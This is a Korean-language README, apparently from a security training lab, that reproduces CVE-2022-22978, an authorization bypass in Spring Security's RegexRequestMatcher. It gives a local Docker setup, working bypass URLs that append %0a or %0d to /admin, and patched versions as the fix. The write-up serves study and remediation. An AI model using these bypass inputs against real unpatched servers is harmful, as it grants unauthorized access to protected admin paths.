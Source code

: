 # Spring Security Authorization Bypass in RegexRequestMatcher (CVE-2022-22978)

> 화이트햇 스쿨 3기 (33반) - [임한섭 (@sub0810)](https://github.com/sub0810)

<br/>

### 1. 요약

- Spring Security에서 정규표현식 기반의 URL 필터링(`RegexRequestMatcher`)을 사용할 때, 필터에 사용된 `. (dot)` 표현이 URL 인코딩된 특수문자 `%0a`(Line Feed), `%0d`(Carriage Return)를 무시하고 매칭되면서 인증이 필요한 경로에 대해 인증 우회가 발생할 수 있는 취약점이다.
- Spring은 해당 인코딩된 문자를 디코딩하지 않기 때문에 필터는 이를 통과시키지만, 실제 컨트롤러는 정상적으로 경로를 처리하여 결과적으로 인증 없이 보호된 URL에 접근할 수 있게 된다.

<br/>

### 2. 취약한 환경 구성 및 실행

#### 2.1 필요 환경

- Spring Security 5.6.3 (또는 5.5.6 이하 취약 버전)

#### 2.2 실행 방법

```bash
docker-compose up -d
```

<br/>

### 3. 취약점 재현

- <http://localhost:8080/admin> → 403 Forbidden (인증 필요)
![](./forbidden.png)

#### 3.1 실행 결과 (직접 접근)

- `http://localhost:8080/admin/%0atest` : <http://localhost:8080/admin/%0atest> → 200 OK (인증 우회 성공)
- `http://localhost:8080/admin/%0dtest` : <http://localhost:8080/admin/%0dtest> → 200 OK (인증 우회 성공)

![](./bypassed.png)

#### 3.2 실행 결과 (코드)

- poc.py 코드를 통해 한 눈에 확인할 수 있도록 해보았다.
- 필요하다면, target과 path를 변경시켜, 다른 취약한 페이지에 대해서도 검증이 가능하다.
![](./forbidden_checked_by_code.png)
![](./bypassed_checked_by_code.png)

<br/>

### 4. 마무리 (대응 방안)

- 해당 취약점은 Spring Security에서 정규표현식 기반 필터(RegexRequestMatcher)가 URL 인코딩된 특수문자(%0a, %0d)를 제대로 처리하지 않아 발생한 인증 우회 취약점이다.
- 이를 안전하게 방지하려면 Spring Security를 보안 패치가 적용된 버전으로 업그레이드해야 하며,

> 5.5.x 버전 사용 시 → 5.5.7 이상  
> 5.6.x 버전 사용 시 → 5.6.4 이상

으로 업데이트가 필요하다.

- 경로 필터링 시에는 특수문자 및 URL 인코딩 처리에 대한 검증 로직을 추가해 우회 가능성을 차단해야한다.

<br/>

### 참고 자료

- [vulhub PoC 환경 – CVE-2022-22978](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22978)  
  CVE-2022-22978 취약점을 재현할 수 있는 Docker 기반 실습 환경
- [SK쉴더스 EQST Insight – Research Technique 2022.08 (PDF)](https://www.skshieldus.com/download/files/download.do?o_fname=EQST%20insight_Research%20Technique_202208.pdf&r_fname=20220818113152277.pdf)  
  Spring Security를 포함한 다양한 보안 취약점 분석과 대응 기법이 정리된 기술 보고서
